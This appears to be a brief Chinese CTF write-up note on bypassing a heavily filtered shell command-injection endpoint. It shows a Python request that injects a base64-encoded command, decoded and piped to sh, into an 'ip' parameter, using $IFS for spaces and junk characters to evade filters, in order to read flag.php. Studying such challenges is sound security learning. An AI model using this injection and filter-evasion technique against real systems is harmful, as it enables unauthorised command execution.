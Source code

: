 tags:: CTFWEB/RCE

- # 思路
	- 普通强过滤shell RCE
	- 可以通过base64解码加sh执行绕过RCE
	- 为了执行`base64 -d`我们可以使用`$IFS`替代空格，为了echo我们的base64 payload我们可以加上一些垃圾字符，然后用base64的`-i`选项让其忽略掉这些垃圾字符
- # payload
	- ```python
	  payload = enc_dec.base64_encode("cat flag.php")
	  payload = f"1145141919810;echo$IFS-_-{payload}|base64$IFS-id|sh"
	  r = requests.get(url, params = {
	      "ip": payload
	  })
	  r.encoding = r.apparent_encoding
	  print(r.text.strip())
	  
	  ```